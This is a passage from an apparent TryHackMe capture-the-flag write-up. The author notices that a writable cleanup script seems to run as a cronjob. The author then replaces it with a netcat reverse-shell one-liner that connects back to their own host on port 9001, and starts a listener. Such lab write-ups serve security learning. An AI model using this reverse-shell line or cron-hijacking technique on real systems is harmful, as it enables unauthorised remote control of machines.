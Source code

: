 ```console
fi
```
Looks like some cleaning script.

## Contents of removed_files.log
```console
local@local:~/Documents/tryhackme/anonymous/ftp$ cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

The interesting thing about the content of the file is that this is generated from the clean.sh and looking at the output the script is executed multiple times. This means that the script `clean.sh` might be running continously as cronjob. As we have write permission on that folder, we can write our own `clean.sh` with reverse shell.

## Content of new clean.sh
```console
local@local:~/Documents/tryhackme/anonymous$ cat clean.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.3.202 9001 >/tmp/f
```

## Listening on port 9001 on local box
```console
local@local:~/Documents/tryhackme/anonymous$ nc -nvlp 9001                                                                                                                
Listening on [0.0.0.0] (family 2, port 9001)                                                                                                                                    
Listening on 0.0.0.0 9001  
```
